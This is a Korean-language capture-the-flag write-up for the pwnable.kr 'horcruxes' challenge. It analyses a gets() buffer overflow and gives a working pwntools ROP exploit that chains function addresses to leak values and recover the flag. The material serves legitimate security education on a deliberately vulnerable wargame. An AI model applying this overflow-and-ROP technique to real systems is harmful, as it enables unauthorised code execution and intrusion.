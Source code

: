 ```yaml
---
layout: post
title: "[pwnable.kr] horcruxes 풀이"
date: 2018-09-04 19:01
categories: "[Pwn]pwnable.kr"
tags: "N0N4M3D"
---
```

>## horcruxes - [7pt]
### Voldemort concealed his splitted soul inside 7 horcruxes.
### Find all horcruxes, and ROP it!
### author: jiwon choi<br><br>
### ssh horcruxes@pwnable.kr -p2222 (pw:guest)

---

ROP를 사용하는 문제라네요

ssh로 연결해보면 `horcruxes`와 `readme`라는 파일이 있어요.

`horcruxes`를 IDA를 이용해 분석하기위해 scp 명령어를 사용했어요

> $ scp -P 2222 horcruxes@pwnable.kr:/home/horcruxes/horcruxes ~/

# 1. 프로그램 분석

{: refdef: style="text-align: center;"}
![init_ABCDEFG](/pic/pwnable_kr/horcruxes/hor_init_ABCDEFG.png)
{: refdef}

{: refdef: style="text-align: center;"}
***init_ABCDEFG 함수***
{: refdef}

전역변수 a,b,c,d,e,f,g의 값을 랜덤으로 정해주고 모든 합을 sum에 저장하는 함수인거 같네요

{: refdef: style="text-align: center;"}
![ropme](/pic/pwnable_kr/horcruxes/hor_ropme.png)
{: refdef}

{: refdef: style="text-align: center;"}
***ropme 함수*** 
{: refdef}

각 A,B,C,D,E,F,G 함수는 각각의 변수들의 값을 출력해주는 함수가 있어요

이리고 이 모든 변수값을 더한 sum 값과 gets로 입력한 값이 같으면 

flag를 출력해주는 함수네요

그런데 이 각각의 함수에서 변수 값을 출력하기 위해서는

계속 랜덤값으로 바뀌는 각각의 변수 값을 알아야하는데

불가능해요

 `gets(s)` 부분에서 BOF가 일어나서 return 주소를 바꿔줄 수 있어요

이 부분을 이용해 exploit 코드를 짜봅시다

# 2. Exploit

```python
from pwn import *
#context.log_level='debug'

#connect ssh
s = ssh("horcruxes", "pwnable.kr", port=2222, password="guest")
#connect nc
n = s.remote("localhost", 9032)

#function address
func_A = 0x0809FE4B
func_B = 0x0809FE6A
func_C = 0x0809FE89
func_D = 0x0809FEA8
func_E = 0x0809FEC7
func_F = 0x0809FEE6
func_G = 0x0809FF05
ROPME = 0x0809FFFC

n.recvuntil('Menu:')
n.sendline('0')
n.recvuntil('earned? : ')

#ROP
payload = ""
payload += "A"*120      #buffer + sfp
payload += p32(func_A)  #return
payload += p32(func_B)
payload += p32(func_C)
payload += p32(func_D)
payload += p32(func_E)
payload += p32(func_F)
payload += p32(func_G)
payload += p32(ROPME)

n.sendline(payload)
total = 0

#calculate EXP
for i in range(0,7):
    n.recvuntil('EXP +')
    total += int(n.recvuntil(')')[:-1])
    log.info('total = ' + str(total))

#return to function 'ROPME'
n.recvuntil("Menu:")
n.sendline("0")
n.recvuntil("earned? : ")
n.sendline(str(total))

log.info("flag is : " + n.recv())
```

이런식으로 exploit 코드를 짜니 flag가 나오긴 했어요

그런데 한번씩 flag가 안나올 때가 있는데 아마 EXP값이

음수가 나올 경우가 있기 때문인거 같네요 

![exploit](/pic/pwnable_kr/horcruxes/hor_ex.png)

